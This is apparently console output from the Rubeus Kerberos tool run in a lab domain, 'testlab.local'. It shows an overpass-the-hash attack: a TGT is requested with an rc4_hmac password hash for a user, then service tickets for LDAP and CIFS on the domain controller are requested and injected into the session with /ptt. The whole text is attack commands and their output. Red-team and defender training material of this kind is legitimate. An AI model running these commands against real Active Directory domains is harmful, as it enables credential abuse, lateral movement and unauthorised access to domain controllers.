     v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'LDAP/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1514 bytes
    [*] Received 1562 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFzjCCBcqgAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'cifs/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1514 bytes
    [*] Received 1562 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFzjCCBcqgAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
